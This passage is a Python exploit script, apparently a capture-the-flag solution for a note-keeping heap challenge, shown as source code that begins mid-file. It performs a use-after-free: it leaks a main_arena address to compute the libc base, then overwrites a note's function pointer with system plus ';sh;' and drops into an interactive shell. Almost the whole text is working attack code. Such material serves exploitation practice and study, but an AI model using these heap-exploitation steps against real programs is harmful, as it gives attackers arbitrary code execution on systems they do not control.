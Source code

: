 ```py
    p.sendafter (b'Content :', content)

def free (p, index):
    p.sendafter (b'Your choice :', b'2')
    p.sendafter (b'Index :', index)

def print_note (p, index):
    p.sendafter (b'Your choice :', b'3')
    p.sendafter (b'Index :', index)

def main():
    p = conn()
    print_chunk_content = 0x0804862b

    add_note (p, b'100', b'nguyendd')
    add_note (p, b'30', b'ndd')
    free (p, b'0')
    add_note (p, b'100', b'A' * 4)
    print_note (p, b'0')

    p.recvuntil (b'A' * 4)
    main_arena = u32 (p.recv (4))
    libc_base = main_arena - 0x1B07B0
    print ("The address of main_arena is : ", hex (main_arena))
    print ("The address of libc base is : ", hex (libc_base))

    
    free (p, b'2')
    free (p, b'1')
    add_note (p, b'8', p32 (libc_base + libc.symbols['system']) + b';sh;')
    print_note (p, b'0')

    p.interactive()


if __name__ == "__main__":
    main()
```


